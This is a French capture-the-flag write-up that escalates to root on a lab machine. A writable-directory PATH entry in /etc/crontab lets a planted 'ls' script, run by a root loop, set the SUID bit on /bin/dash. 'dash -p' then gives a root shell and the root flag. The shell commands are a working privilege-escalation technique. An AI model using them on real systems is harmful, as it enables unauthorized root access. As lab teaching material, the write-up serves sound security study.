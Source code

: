 Le mot de passe de root n'est pas retrouvé par JohnTheRipper...

On a déjà accès à notre premier flag :

```shellsession
jerome@jerome:~$ cat flag.txt 
b0ed001c825
```

Je remarque quelque chose dans `/etc/crontab`. Saurez-vous déceler le problème vous même ?

```shellsession
jerome@jerome:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=.:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
@reboot         root    /bin/bash /usr/share/simulate.sh
@reboot         root    dhclient
jerome@jerome:~$ cat /usr/share/simulate.sh
#
# This script simulates human behaviour from the root account
#

while true
do
    cd /home/jerome;
    ls;
    sleep 120;
done
```

Tic toc, tic toc... Oui c'est bien la présence du dossier courant qui est prioritaire dans la variable PATH.

On va exploiter ça en plaçant un script `ls` dans le dossier de l'utilisateur :

```shellsession
jerome@jerome:~$ echo -e '#!/bin/bash\nchmod 4755 /bin/dash' > ls
jerome@jerome:~$ chmod 755 ls
jerome@jerome:~$ sleep 120
jerome@jerome:~$ dash -p
# id
uid=1000(jerome) gid=1000(jerome) euid=0(root) groups=1000(jerome),27(sudo)
# cd /root
# ls
flag.txt
# cat flag.txt
f60532cf8a
```

Mission accomplie !

*Publié le 21 décembre 2022*